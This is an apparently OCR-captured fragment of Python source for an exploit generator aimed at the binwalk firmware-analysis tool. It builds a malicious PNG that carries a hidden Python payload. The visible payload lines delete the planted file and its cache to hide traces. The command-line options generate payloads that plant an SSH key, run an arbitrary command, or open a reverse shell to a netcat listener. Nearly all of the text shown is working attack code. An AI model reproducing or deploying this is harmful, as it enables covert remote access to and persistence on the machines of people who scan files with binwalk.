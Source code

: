 ```python
                "            with open('/tmp/.binwalk', 'w') as temp_file:\n",
                "                temp_file.write('1')\n",
                "        else:\n",
                "            os.remove('/tmp/.binwalk')\n",
                "            os.remove(os.path.abspath(__file__))\n",
                "            shutil.rmtree(os.path.join(os.path.dirname(os.path.abspath(__file__)), '__pycache__'))\n"
            ]

        with open(self.args.file, "rb") as input_file:
            data = input_file.read()

        content = '\n'.join(lines).encode()

        with open("binwalk_exploit.png", "wb") as output_file:
            output_file.write(data)
            output_file.write(header)
            output_file.write(content)


def main():
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest="option")

    ssh_parser = subparsers.add_parser("ssh")
    ssh_parser.add_argument("file", help="Path to input .png file")
    ssh_parser.add_argument("pub", help="Path to pub key file")

    command_parser = subparsers.add_parser("command")
    command_parser.add_argument("--command", help="Command to execute")
    command_parser.add_argument("file", help="Path to input .png file")

    reverse_parser = subparsers.add_parser("reverse")
    reverse_parser.add_argument("file", help="Path to input .png file")
    reverse_parser.add_argument("ip", help="IP to nc listener")
    reverse_parser.add_argument("port", help="Port to nc listener")

    args = parser.parse_args()

    if len(sys.argv) == 1:
        parser.print_help()
    else:
        generator = ExploitGenerator(args)
        generator.generate_exploit()


if __name__ == "__main__":
    main()
```
